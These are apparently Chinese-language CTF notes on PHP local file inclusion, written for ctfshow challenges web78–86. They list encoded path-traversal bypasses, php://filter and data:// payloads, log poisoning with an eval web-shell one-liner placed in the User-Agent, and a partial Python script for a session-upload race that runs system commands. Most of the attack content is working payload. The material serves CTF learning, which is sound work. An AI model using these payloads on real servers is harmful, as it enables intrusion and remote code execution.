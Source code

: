 ```php
?>
```
使用../../../等即可遍历
###  编码
如果../被过滤了，可以用
```
1. url编码
- %2e%2e%2f
- ..%2f
- %2e%2e/
2. 二次编码
- %252e%252e%252f
3. 容器和服务器编码
- ..%c0%af
```
##  ctfshow
###  web78
filter伪协议
payload
file=php://filter/convert.base64-encode/resource=flag.php
解码后得到flag
###  web79
替换了php，我们使用data协议
file=data://text/plain,<?=`tac f*`;?>
###  web80
过滤了php和data
我们可以使用远程文件包含(需要allow_url_include=on)
###  web81
日志文件包含
首先在UA头里面写入一句话
```php
<?php
eval($_POST[1]);
?>
```
接着包含日志文件并利用一句话
```
GET:file=/var/log/nginx/access.log
POST:1=phpinfo();
```
###  web82-86
php-session文件包含
```php
import requests
import threading
import sys
session=requests.session()
sess='yu22x'
url1="http://05b536c9-c839-4df4-80a9-ddbc1ddeb979.challenge.ctf.show:8080/"
url2='http://05b536c9-c839-4df4-80a9-ddbc1ddeb979.challenge.ctf.show:8080?file=/tmp/sess_'+sess
data1={
	'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
}
data2={
	'1':'system("cat f*");'
}
file={
	'file':'abc'
}
```
